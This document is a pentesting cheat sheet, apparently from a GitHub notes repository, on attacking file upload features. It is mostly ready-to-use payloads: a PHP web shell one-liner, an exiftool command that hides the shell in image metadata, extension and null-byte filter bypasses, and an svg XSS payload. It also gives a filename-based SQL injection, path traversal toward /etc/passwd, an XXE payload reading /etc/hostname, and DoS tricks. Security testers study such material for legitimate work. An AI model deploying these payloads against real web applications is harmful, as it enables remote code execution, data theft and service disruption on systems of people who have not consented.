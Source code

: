 ### Vulnerabilities via Arbitrary File Upload


### Bypasses
#### MIME Type Bypass
```
Content-Type: image/jpeg
```

#### Content-Length Bypass
```
<?php system($_GET['c']);?>
```

#### Magic Number Validation Bypass
##### Use Exiftool and instert malicious code
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['c']);?>' image.jpg
mv image.jpg image.php.jpg
```
#### Extension Bypass

| Type        | Extension       |
| ------------- |---------------|
| **php**      | phtml, .php, .php3, .php4, .php5, and .inc |
| **asp**      | asp, .aspx      |
| **perl** | .pl, .pm, .cgi, .lib      |
| **jsp**      | .jsp, .jspx, .jsw, .jsv, and .jspf      |
| **Coldfusion**      | .cfm, .cfml, .cfc, .dbm      |

#### Other Techniques(Extension Bypass)
```
file.shtml
file.asa
file.cert
```

##### Capital Letters of Extensions
```
file.PhP
file.AspX
```

#### Using Special Trailing Such as Spaces, Dots or Null Characters
```
file.asp...
file.php;jpg
file.php%00.png
file.php\x00.png
file.jpg%00.php
```

#### In IIS6 vulnerability, if the file name is ```file.asp;file.jpg```, the file will be executed as ```file.asp```.
#### In NginX, if the original file name is ```test.jpg```, testers/hackers may change it to ```test.jpg/x.php```, the file will be executed as ```x.php```.

### Chain With Other Vulnerabilities

#### XSS(Cross Site Scripting)
```
Filename: "><svg onload=alert(1)>.jpeg
xss.svg -> file contain xss payload inside svg format
```

#### SQL Injection
```
' sleep(10) -- -.jpg
```

#### Path Traversal
```
../../logo.png
../../etc/passwd/logo.png
```

#### RCE
```
ImageTragic
```

#### XXE
##### Filename: xxe.svg
##### Content-Type: image/svg+xml
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

#### SSRF
```
Change 'type=file' to 'type=url'
```
#### DoS Attack via Long File Name
```
# This one is a sample
# File name can be larger than this
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbb.jpeg
```

#### DoS Attack via Pixel Flood Attack
![lottapixel.jpg](../Images/lottapixel.jpg)

#### Bypass
```
Replace the 64250*64250px pixel value with 0xfafa*0xfafa

For pixel change: https://www.resizepixel.com/
```

#### Uploaded file not found? Try Path Traversal on filename.
#### Try to brutefore file extension
